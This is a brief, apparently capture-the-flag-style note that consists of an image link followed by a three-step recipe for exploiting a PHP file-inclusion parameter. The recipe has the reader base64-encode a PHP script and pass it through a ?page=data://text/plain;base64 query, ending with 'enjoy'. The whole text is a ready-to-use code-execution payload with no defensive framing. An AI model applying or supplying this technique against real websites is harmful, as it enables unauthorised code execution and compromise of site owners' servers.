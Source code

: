 1. Convert script.php to base64
2. craft query like this : ?page=data://text/plain;base64,<base64 here>
3. enjoy
